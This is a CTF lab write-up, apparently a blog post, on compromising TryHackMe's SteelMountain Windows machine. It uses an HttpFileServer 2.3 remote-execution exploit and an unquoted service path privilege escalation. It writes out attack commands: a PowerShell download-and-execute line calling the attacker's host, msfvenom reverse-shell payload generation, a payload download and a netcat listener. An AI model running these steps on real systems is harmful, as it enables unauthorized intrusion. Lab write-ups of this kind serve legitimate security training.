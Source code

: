 ```yaml
---
layout: single
title: SteelMountain - TryHackMe (OSCP STYLE)
excerpt: "On TryHackMe, the challenge of the Steel Mountain Machine is to be solved either through Metasploit or manually. This machine runs on Windows operating system. For this particular challenge, the manual approach will be followed to solve it."
date: 2023-04-14
classes: wide
header:
  teaser: /assets/images/steelmountain/portada.jpeg
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - windows
  - Unquoted Service Path
  - HFS
---
```


## Introduccion

This is a write-up for the SteelMountain machine on the TryHackme platform. We tackled this pentesting exercise using the approach and methodology of OSCP.

## Enumeration

In this lab, we are dealing with a Windows machine.
For machine enumeration, we will scan all ports of the machine, request it to report back the open ports, and save all that information to a file to avoid making noise in case we need to refer back to it.
- -p-: Scans all ports
-	-oN nmap-initial-scan.txt: Saves output to a file named "nmap-initial-scan.txt"
-	-min-rate 5000: Specifies the minimum number of packets per second to be sent during the scan.
-	-T5: Sets the level of "aggressiveness" of the scan to 5, meaning that more intense and faster tests will be performed.
-	-Pn: Ignores checking whether the remote host is active and online.
-	-n: Disables DNS name resolution for IP addresses.

```
sudo nmap -p- -sS --min-rate 5000 --open -T5 -vvv -n -Pn 10.10.178.153 -oG allPorts
```

![1]

Upon port scanning, it was identified that a web server is being served on ports 80 and 8080. This indicates the presence of HTTP services on the target machine. Navigating to those ports, the following web pages were discovered.

![2]

This web page is only useful to solve the first question of the lab. In this write-up, we will focus on compromising the machine.

![3]

On the second page, we discovered an HttpFileServer 2.3. Using the "searchsploit" command to look for the name of this file, we found a Python script that allows remote command execution. This search was made possible by the ExploitDb database, which lists this exploit with the number 49584.

![4]

The script first sets some variables, including the IP address and port of the attacker machine (lhost and lport), and the IP address and port of the victim machine (rhost and rport). It then defines a command to be executed on the victim machine in PowerShell, which sets up a TCP connection to the attacker machine and sends the output of any executed commands back to the attacker machine.

It encodes this command in base64 format and creates a payload that includes the encoded command, which is then URL-encoded and sent to the victim machine as part of an HTTP GET request. Once the payload is received by the victim machine and executed, a reverse shell connection is established and the attacker machine can interact with the victim machine.

Finally ends by printing some debugging information and listening for incoming connections on the specified port using the netcat utility.

To make this script work, we need to change the first 4 parameters.

![5]

After running the script, we received the reverse shell on our machine.

![6]

![7]

By obtaining a reverse shell on the target machine, we were able to retrieve the first flag.

![8]


## Privilege escalation

It is important to note that we gained access with a PowerShell session, so all syntax used must be in this interpreter.

We used the PowerUp.ps1 tool to enumerate potential privilege escalation vectors within the machine. At the end of the script, we should add "Invoke-AllChecks" to perform the scan.

The GitHub repository to download the tool is: [Github](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

We executed the script from our local machine using the Invoke-Expression tool, which means that the script was not downloaded or stored on the victim's machine.

```
iex(New-Object Net.WebClient).downloadString('http://LIP:LPORT/PowerUp.ps1')
```

We need to launch an HTTP server using Python, specifying the directory where the file mentioned above is located as the document root.

```
sudo python3 -m http.server 8080
```

![9]

The vulnerability detected by the tool is called "Unquoted Service Path".

![10]

The Unquoted Service Path vulnerability refers to an error in the way the path of a Windows service is specified in the registry. If the path contains spaces but is not enclosed in double quotes, the service may attempt to execute an unintended program or even a malicious backdoor. This vulnerability can be exploited if the user running the service has elevated privileges, allowing an attacker to escalate privileges to gain control over the system.

For example, let's say a Windows service is installed with a path of C:\Program Files\Example Service\service.exe. However, the service is registered in the registry without quotes around the path, like this:
HKLM\SYSTEM\CurrentControlSet\Services\ExampleService
ImagePath: C:\Program Files\Example Service\service.exe

If a user with administrative privileges attempts to start this service, Windows will search for the executable at the specified path. However, because the path contains spaces and is not enclosed in quotes, Windows will interpret the first space as a separator between the path and the first argument. In this case, Windows will attempt to execute C:\Program instead of C:\Program Files\Example Service\service.exe. If an attacker were to place a malicious file named C:\Program.exe on the system, Windows would execute that file instead of the intended service executable.
To exploit this vulnerability, an attacker could create a malicious file with a name like C:\Program.exe and place it on the system. When the vulnerable service is started, Windows would execute the malicious file instead of the intended executable, allowing the attacker to execute arbitrary code with elevated privileges.

To take advantage of the vulnerability on this machine, we will go to the path:

```
C:\Program Files (x86)\IObit\
```

This path is the first path where we can add an executable file due to user permissions.

Since we cannot access the C:\Program Files(x86) directory with our account privileges, we will place a vulnerable executable file named "Advanced.exe" generated with MSFVenom in this directory.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=xxx -f exe -o Advanced.exe
```

We will use the Invoke-WebRequest tool from the target machine to request the file by sharing it from our machine to the target machine through the Python server.

```
iwr -uri "http://AtackerIP:AtackerPort/Advanced.exe" -outfile "Advanced.exe
```

![11]

Finally, we just need to stop and restart the service. When the service runs again, it will execute our script before the legitimate one, and it will call a listener that we have set up on our attacker machine as an administrator.

```
Victim Machine:
stop-service AdvancedSystemCareService9
start-service AdvancedSystemCareService9

Atacket Machine:
nc -lvnp AtackerPort
```
 
   

We receive the shell in the listener set up with netcat.

![12]

In conclusion, this CTF provided an opportunity to practice different hacking techniques and tools, including enumeration, vulnerability scanning, exploitation, and privilege escalation. We were able to compromise the target machine by exploiting known vulnerabilities and using social engineering tactics. This CTF also helped us improve our understanding of how attackers can gain unauthorized access to systems and the importance of implementing security best practices to protect against such attacks.


[1]:/assets/images/steelmountain/1.png
[2]:/assets/images/steelmountain/2.png
[3]:/assets/images/steelmountain/3.png
[4]:/assets/images/steelmountain/4.png
[5]:/assets/images/steelmountain/5.png
[6]:/assets/images/steelmountain/6.png
[7]:/assets/images/steelmountain/7.png
[8]:/assets/images/steelmountain/8.png
[9]:/assets/images/steelmountain/9.png
[10]:/assets/images/steelmountain/10.png
[11]:/assets/images/steelmountain/11.png
[12]:/assets/images/steelmountain/12.png
